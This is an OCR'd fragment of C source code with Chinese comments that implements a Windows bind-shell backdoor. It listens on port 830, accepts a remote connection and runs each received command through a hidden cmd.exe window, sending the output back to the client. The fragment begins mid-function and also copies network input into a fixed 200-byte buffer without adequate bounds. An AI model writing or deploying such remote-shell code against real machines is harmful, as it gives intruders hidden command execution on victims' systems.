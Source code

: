 ```
     //建立 socket
     listenFD = socket(AF_INET,SOCK_STREAM,IPPROTO_TCP);
     //监听本机 830 端口
     struct sockaddr_in server;
     server.sin_family = AF_INET;
     server.sin_port = htons(830);
     server.sin_addr.s_addr=ADDR_ANY;
     ret=bind(listenFD,(sockaddr *)&server,sizeof(server));
     ret=listen(listenFD,2);
     //如果客户请求 830 端口，接受连接
     int iAddrSize = sizeof(server);
     SOCKET clientFD=accept(listenFD,(sockaddr *)&server,&iAddrSize);
     SECURITY_ATTRIBUTES pipeattr1;
     HANDLE hReadPipe1,hWritePipe1;
     //建立匿名管道 1
     pipeattr1.nLength = 12; 
     pipeattr1.lpSecurityDescriptor = 0;
     pipeattr1.bInheritHandle = true;
     CreatePipe(&hReadPipe1,&hWritePipe1,&pipeattr1,0);
     STARTUPINFO si;
     ZeroMemory(&si,sizeof(si));
     si.dwFlags = STARTF_USESHOWWINDOW|STARTF_USESTDHANDLES;
     si.wShowWindow = SW_HIDE;
     //si.hStdInput = hReadPipe2;
     si.hStdOutput = si.hStdError = hWritePipe1;
     PROCESS_INFORMATION ProcessInformation;
     char cmdLine[200];
     unsigned long lBytesRead;
     /*
     以命令为参数运行 cmd.exe
     (远程主机→传送命令－→以命令为参数建立 cmd.exe 子进程运行
     (远程主机)←输入→管道 1 输出→管道 1 输入→输出(cmd.exe 子进程)
     */
     while(1)
     {
         //检查管道 1，即 cmd 进程是否有输出
         ret=PeekNamedPipe(hReadPipe1,Buff,1024,&lBytesRead,0,0);
         if(lBytesRead)
         {
              //管道 1 有输出，读出结果发给远程客户机
              ret=ReadFile(hReadPipe1,Buff,lBytesRead,&lBytesRead,0);
              if(!ret) break;
              ret=send(clientFD,Buff,lBytesRead,0);
              if(ret<=0) break;
         }
         else
         {
              //否则，接收远程客户机的命令
              lBytesRead=recv(clientFD,Buff,1024,0);
              if(lBytesRead<=0) break;
              strcpy(cmdLine, "cmd.exe /c");            //cd\ & dir
              strncat(cmdLine, Buff, lBytesRead);
               //以命令为参数，合成后启动 CMD 执行
CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,&ProcessInformation);
         }
     }
     return 0;
} 
```
